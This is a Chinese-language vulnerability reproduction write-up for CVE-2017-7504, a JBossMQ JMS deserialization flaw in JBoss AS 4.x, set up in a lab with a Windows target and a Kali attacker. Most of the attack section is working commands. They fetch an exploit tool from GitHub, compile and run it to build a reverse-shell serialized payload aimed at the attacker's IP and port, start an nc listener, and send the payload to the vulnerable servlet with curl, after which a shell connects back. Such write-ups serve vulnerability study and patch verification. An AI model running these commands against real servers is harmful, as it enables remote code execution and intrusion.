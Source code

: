 （CVE-2017-7504）JBoss 4.x JBossMQ JMS 反序列化漏洞
===================================================

一、漏洞简介
------------

JBoss AS 4.x及之前版本中，JbossMQ实现过程的JMS over HTTP Invocation
Layer的HTTPServerILServlet.java文件存在反序列化漏洞，远程攻击者可借助特制的序列化数据利用该漏洞执行任意代码。

二、漏洞影响
------------

JBoss AS 4.x及之前版本

三、复现过程
------------

win7一台，ip为172.26.1.127（靶机，安装了java环境）

kali一台，ip为192.168.1.192(攻击机)

输入<http://172.26.1.127:8080/jbossmq-httpil/HTTPServerILServlet>，如果显示下图，则可能存在漏洞

![](./.resource/(CVE-2017-7504)JBoss4.xJBossMQJMS反序列化漏洞/media/rId25.png)

进入kali攻击机，下载反序列化工具:<https://github.com/ianxtianxt/CVE-2015-7501/>

解压完，进入到这个工具目录 ,执行命令:

> 继续执行命令:

    javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java
    java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 192.168.1.192:4444（IP是攻击机ip,4444是要监听的端口)

新界面开启nc准备接收反弹过来的shell。命令:nc -lvnp 4444

这个时候在这个目录下生成了一个ReverseShellCommonsCollectionsHashMap.ser文件，然后我们curl就能反弹shell了，执行命令:

    curl http://172.26.1.127:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @ReverseShellCommonsCollectionsHashMap.ser 

![](./.resource/(CVE-2017-7504)JBoss4.xJBossMQJMS反序列化漏洞/media/rId27.png)

回到nc界面，发现shell已经反弹回来了

![](./.resource/(CVE-2017-7504)JBoss4.xJBossMQJMS反序列化漏洞/media/rId28.png)
